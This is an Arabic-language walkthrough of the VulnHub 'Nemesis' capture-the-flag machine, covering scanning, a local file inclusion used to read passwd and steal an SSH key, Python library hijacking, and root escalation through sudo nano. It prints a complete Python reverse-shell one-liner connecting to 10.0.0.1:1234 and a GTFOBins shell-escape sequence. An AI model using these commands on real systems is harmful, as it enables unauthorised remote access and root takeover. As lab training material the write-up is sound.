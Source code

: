 # vulnhub nemesis

CTF السلام عليكم اليوم سنحل تحدي 

VULNHUB من تحديات  
يمكنك تحميله من هنا 

[nemesis](https://www.vulnhub.com/entry/ia-nemesis-101,582/)


## Walkthrough

### scanning
 nmap نبدا بفحص السيرفر ب 

 ![Desktop View](/img/nem/1.png)

     نلاحظ وجود 4 بورت

80 : الخاص بالويب سيرفر

52845: شغال ويب سيرفر 

52846: ssh خاص ب 

## Enumeration
 نتصفح الموقع 

  ![Desktop View](/img/nem/2.png)


عند القاء نظرة على سورس كود نجد كلمة سر واسم مستخدم


 ![Desktop View](/img/nem/3.png)

rabbit hole عبارة عن 
 
port 52845 نتصفح 

web application عند فحص 

lfi نجد انه مصاب بثغرة 

![Desktop View](/img/nem/4.png)

لنرى اليوزرس المتواجدين هنا passwd نقوم بسحب ملف 

![Desktop View](/img/nem/5.png)


thanos نجد يوزر 

ssh key نبحث داخله هل هناك 

../../../../home/thanos

![Desktop View](/img/nem/7.png)

وجدنا الملف الان نقوم بحفظه و تغير الصلاحيات 

![Desktop View](/img/nem/8.png)

نتصل ب السيرفر الان 

![Desktop View](/img/nem/9.png)

 كل مدة زمنية backup  يقوم بعمل python نجد ملف 

![Desktop View](/img/nem/10.png)


 
zipfile باسم python نقوم بانشاء ملف 

nc و نشغل 

python يعمل ملف carloss عندما يتم تشغيل الملف بواسطة  

  لشال الخاص بنا import 
  ```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

  ```


![Desktop View](/img/nem/11.png)

ننتظر قليل حتى نحصل على الاتصال من السيرفر

![Desktop View](/img/nem/12.png)


home directory نجد داخل  
ملف يقوم بالتشفير بداخله كلمة سر

![Desktop View](/img/nem/13.png)

affine نلاحظ انه عمل تشفير ب 

![Desktop View](/img/nem/14.png)

نقوم بفك تشفيره 

![Desktop View](/img/nem/16.png)

نحصل على كلمة سر 




## Privilege Escalation 


 ان يشغل بصلاحيات رووت carlos ثم نرى ماذا  يستطيع  

 باستخدام الامر التالي
 ```
 sudo -l 
 ```

![Desktop View](/img/nem/18.png)


![Desktop View](/img/nem/20.png)

gtfobiins نتوجه الى  nano نجد ان يستطيع استخدام 

![Desktop View](/img/nem/21.png)


نكتب
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![Desktop View](/img/nem/22.png)




ROOT نحصل على 

![Desktop View](/img/nem/23.png)

